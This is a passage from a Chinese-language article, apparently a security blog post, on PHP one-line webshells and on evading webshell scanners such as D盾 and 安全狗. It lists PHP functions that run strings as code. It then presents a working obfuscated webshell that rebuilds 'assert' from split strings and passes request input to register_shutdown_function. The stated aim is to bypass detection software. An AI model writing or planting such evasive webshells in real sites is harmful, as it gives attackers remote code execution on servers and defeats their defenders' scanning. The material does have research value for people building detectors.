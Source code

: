> 客户端将PHP代码使用特殊参数名(密码)，发送给放置在服务端上的一句话木马文件；
>
> 一句话木马脚本则在服务器上执行发来的PHP代码，然后将执行结果回传给客户端，客户端将结果解析并展示给操作者。

## 0x02：查杀现状研究

根据0x01的一句话木马原理，我们知道必须要在服务器上执行客户端发来的字符串形式的PHP代码。

脚本要将字符串(或文件流)当作PHP代码执行，目前主要会使用以下函数：

|   函数   | 说明                                       |
| :----: | ---------------------------------------- |
|  eval  | PHP 4, PHP 5, PHP 7+ 均可用，接受一个参数，将字符串作为PHP代码执行 |
| assert | PHP 4, PHP 5, PHP 7.2 以下均可用，一般接受一个参数，php 5.4.8版本后可以接受两个参数 |
| 正则匹配类  | preg_replace/ mb_ereg_replace/preg_filter等 |
| 文件包含类  | include/include_once/require/require_once/file_get_contents等 |

本文为了好说明问题，统一将上面表中可以将字符串当作代码执行的函数临时起个名字，叫"**函数机**"。

不幸的是，但凡直接出现函数机，即便不是进行恶意操作，部分查杀软件也会产生警告，达不到我们的要求。

比如用D盾检测如下脚本：

![检测到可疑](warning-1.png)

  然后，就需要方法来隐藏上面的函数机。但是随着攻防对抗的升级，较传统的字符串拆分、变形、进制转换、运算变换等躲避Webshell查杀的效果已经大大降低。

  所以，经过调研和比较，本文选择了通过可以携带参数的PHP回调函数来创造后门的技术，来实现绕过检测软件的一句话木马后门。

  拿出来曾经披露过的一个回调函数后门函数"register_shutdown_function"做测试，发现虽然D盾、深信服的工具没有发觉到"register_shutdown_function"加 "assert"的变形，但是安全狗还是察觉到了。

```php
<?php
$password = "LandGrey";
$ch = explode(".","hello.ass.world.er.t");
register_shutdown_function($ch[1].$ch[3].$ch[4], $_REQUEST[$password]);
?>
```
